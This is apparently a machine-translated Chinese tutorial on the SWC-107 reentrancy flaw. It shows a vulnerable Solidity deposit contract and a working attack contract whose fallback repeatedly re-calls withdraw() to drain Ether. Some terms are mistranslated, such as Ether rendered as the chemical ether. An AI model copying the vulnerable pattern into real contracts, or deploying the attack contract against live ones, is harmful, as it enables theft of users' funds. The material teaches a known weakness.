## ****重返(SWC-107)****

****在可重入攻击中，恶意契约(攻击者契约)在函数的第一次调用完成之前回调调用契约。这可能导致函数的不同调用以不期望的方式交互。****

******易受攻击合同的示例:******

```
**contract DepositFunds {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

}**
```

****当用户请求大量乙醚时，该漏洞就会出现。在这种情况下，攻击者调用`withdraw()`函数。他可以转移代币，即使他已经收到代币，因为他的余额还没有设置为 0。****

****攻击者可以创建以下合同并利用可重入性漏洞:****

```
**contract Attack {
    DepositFunds public depositFunds;

    constructor(address _depositFundsAddress) {
        depositFunds = DepositFunds(_depositFundsAddress);
    }

    // Fallback is called when DepositFunds sends Ether to this contract.
    fallback() external payable {
        if (address(depositFunds).balance >= 1 ether) {
            depositFunds.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        depositFunds.deposit{value: 1 ether}();
        depositFunds.withdraw();
    }

}**
```
